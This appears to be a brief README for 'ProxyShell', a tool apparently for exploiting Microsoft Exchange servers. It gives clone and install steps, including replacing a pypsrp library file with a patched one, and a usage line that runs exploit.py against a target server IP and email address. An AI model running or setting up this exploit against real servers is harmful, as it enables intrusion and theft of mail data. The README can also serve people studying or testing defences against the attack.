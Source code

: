 # ProxyShell

## Install
```
git clone https://github.com/ktecv2000/ProxyShell
cd ProxyShell
virtualenv -p $(which python3) venv
source venv/bin/activate
pip3 install pypsrp
cp wsman.py venv/lib/*/site-packages/pypsrp/wsman.py
```

## Usage
```
python3 exploit.py <target-exchange-server-ip> <email>
```
